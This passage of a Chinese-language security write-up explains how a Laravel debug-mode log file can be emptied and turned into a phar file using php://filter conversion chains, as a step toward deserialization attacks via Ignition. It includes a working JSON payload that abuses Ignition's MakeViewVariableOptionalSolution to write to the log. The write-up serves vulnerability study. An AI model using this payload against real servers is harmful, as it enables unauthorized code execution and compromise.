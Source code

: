 **将log转化为phar文件**

原文作者给出的一个基于框架触发 phar反序列化的方法: 将log文件变成合法的phar文件

laravel 的 log 文件在 `/storage/logs/laravel.log`

```
[2021-03-14 03:47:21] production.ERROR: No application encryption key has been specified. `{`"exception":"[object] (Illuminate\\Encryption\\MissingAppKeyException(code: 0): No application encryption key has been specified. at D:\\phpstudy_pro\\WWW\\laravel822\\vendor\\laravel\\framework\\src\\Illuminate\\Encryption\\EncryptionServiceProvider.php:79)
[stacktrace]
#0 D:\\phpstudy_pro\\WWW\\laravel822\\vendor\\laravel\\framework\\src\\Illuminate\\Support\\helpers.php(263): Illuminate\\Encryption\\EncryptionServiceProvider-&gt;Illuminate\\Encryption\\`{`closure`}`(NULL)
#1 D:\\phpstudy_pro\\WWW\\laravel822\\vendor\\laravel\\framework\\src\\Illuminate\\Encryption\\EncryptionServiceProvider.php(81): tap(NULL, Object(Closure))
#2
...
```

原文作者在文章中提出了使用 `php://filter` 中的 `convert.base64-decode` 过滤器的特性, 将log清空

&lt;img src=”https://p5.ssl.qhimg.com/t01bcf0f7e02d81fe40.png” style=”zoom:150%;” /&gt;

`convert.base64-decode` 会将一些非 base64 字符给过滤掉后再进行 `decode`, 所以可以通过调用多次 `convert.base64-decode` 来将 log 清空

&lt;img src=”https://p2.ssl.qhimg.com/t01884d4be108dc3977.png” style=”zoom:150%;” /&gt;

但是也会出现非预期的状况, 如果某次 base64 编码后的 `=` 出现了别的 base64 字符

&lt;img src=”https://p0.ssl.qhimg.com/t0145f977898a91bded.png” style=”zoom:150%;” /&gt;

php是会报一个 Warning 的, 且由于 laravel 开启了debug模式，所以会触发 `Ignition` 生成错误页面，导致decode后的字符没有成功写入

所以我们清空 log 文件的目录大致分为底下两步操作:
- 使 log 文件尽可能变成非 base64 字符
- 再通过 `convert.base64-decode` 将所有非 base64 字符清空
原文作者在第一步通过多次 `convert.base64-decode` , 但是有可能会出现上述的 Warning 状况, 例如取了一次真实的 laravel.log 进行多次 `convert.base64-decode` , php报了 Warning

[![](https://p0.ssl.qhimg.com/t01a4bc7b8be1e0284b.png)](https://p0.ssl.qhimg.com/t01a4bc7b8be1e0284b.png)

所以我们需要考虑另外一种方式达到第一步的目的, 我们知道 `php://filter` 还有很多解析器, 像是 `convert.base64-decode`, `string.rot13`, `string.strip_tags`, `convert.iconv.UCS-2LE.UCS-2BE`, `convert.iconv.utf-8.utf-7` 等, 这里我们使用 `convert.iconv.utf-8.utf-16be`

```
`{`"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": `{`"variableName": "username", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be/resource=../storage/logs/laravel.log"`}``}`
```

结果如下

[![](https://p4.ssl.qhimg.com/t011f4d154a3704591a.png)](https://p4.ssl.qhimg.com/t011f4d154a3704591a.png)
